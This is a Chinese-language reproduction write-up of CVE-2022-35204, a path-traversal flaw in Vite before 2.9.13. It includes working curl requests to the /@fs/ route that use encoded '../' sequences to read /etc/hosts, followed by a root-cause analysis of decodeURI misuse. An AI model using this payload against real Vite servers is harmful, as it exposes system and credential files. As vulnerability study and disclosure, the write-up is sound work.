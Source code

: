 ```yaml
---
title: CVE-2022-35204
---
```


# CVE-2022-35204

<script setup>
import VueMetadata from "@/components/metadata/Metadata.vue"
</script>

<vue-metadata author="swwind" time="2023-6-12">
</vue-metadata>

Vite 是 Vite 开源的一种新型的前端构建工具。

Vite v2.9.13 之前版本存在安全漏洞，该漏洞源于允许攻击者通过精心设计的 URL 对受害者的服务执行目录遍历。

## 漏洞详情信息表

|  漏洞名称  |   Vite 路径遍历漏洞    |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202208-3372    |
|  CVE 编号  | [CVE-2022-35204][nist] |
|    厂商    |          Vite          |
|  危害等级  |          低危          |
|  漏洞类型  |        路径遍历        |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- vite v2.9.12

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2022-35204` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vite@2.9.12` 安装带有缺陷的 vite 版本。

## 漏洞测试或验证详细步骤

### 编写代码

创建 `index.html`，简单写入任意 HTML 页面，如下样例。

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Vite</title>
  </head>
  <body>
    There is nothing to observe
  </body>
</html>
```

### 运行程序

使用 `yarn vite dev` 开启 vite 开发模式服务器，可以看到程序默认监听了 `localhost:3000` 地址端口。

![](/assets/exploits/figure2/fig1.png)

访问 `http://localhost:3000` 可以看到我们在 `index.html` 中编写的内容。

![](/assets/exploits/figure2/fig2.png)

### 验证漏洞

vite 默认启用的 `/@fs/` 路由用于访问任意本地文件，但是只限于项目仓库目录下的文件。

例如我们构造一个请求 URL 形如 `http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html`，这个 URL 指向的是我们方才创建的 `index.html`，并且在项目的目录下，因此可以正常访问。我们使用 curl 测试这个路径的访问情况。

```bash
curl http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html
```

程序输出如下

![](/assets/exploits/figure2/fig3.png)

我们尝试访问一个不在项目路径下的文件，例如 `/etc/hosts` 文件，可以看到 vite 拒绝了我们的请求。

```bash
curl http://localhost:3000/@fs/etc/hosts
```

![](/assets/exploits/figure2/fig4.png)

漏洞的关键在于，我们可以使用 `%2e%2e%2f`（经过 `encodeURIComponent` 之后的 `../`）来索引到父级目录，从而绕过 vite 的路径验证。

值得注意的是使用 curl 必须要带上 `--path-as-is` 参数，防止 curl 自己展开 `../`。

```curl
curl --path-as-is http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts
```

![](/assets/exploits/figure2/fig5.png)

可以看到成功绕过了 vite 的路径检测，成功访问到了系统中的任意文件。

### 漏洞分析

漏洞出现的原因在于 vite 错误地使用了 `decodeURI` 函数来对输入的参数进行反序列化。

![](/assets/exploits/figure2/fig6.png)

`decodeURI` 函数在解码时会将大部分 ASCII 标点符号和预留字符保留不变，包括 `/`（斜杠）和 `%2f`（斜杠的编码形式）。

相比之下，`decodeURIComponent` 函数仅解码 URI 组件中的字符，而不是完整的 URI。它可以正确解码任何 ASCII 字符或 UTF-8 字符集，包括默认 URI 编码中使用的所有预留字符和其他特殊字符。因此，在处理普通的、标准的或非标准的 URI 时，`decodeURIComponent` 函数通常是更安全和可靠的选择。

在这个漏洞的情形下，当传入的参数是 `/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts` 的时候，`decodeURI` 函数解析出来的结果会保留其中的所有 `%2f`，再经由下一步的 `path.resolve` 函数解析，最终结果是 `/home/swwind/tmp/cve/CVE-2022-35204/..%2f..%2f..%2f..%2f../etc/hosts`，由此非常轻松地就绕过了 vite 的允许目录检查。

相比之下，如果使用了安全的 `decodeURIComponent` 函数，那么第一步解析出来的结果就会是 `/home/swwind/tmp/cve/CVE-2022-35204/../../../../../etc/hosts`，经过第二步 `path.resolve` 解析之后的结果将会是 `/etc/hosts`，从而有效防止此类攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2022-35204
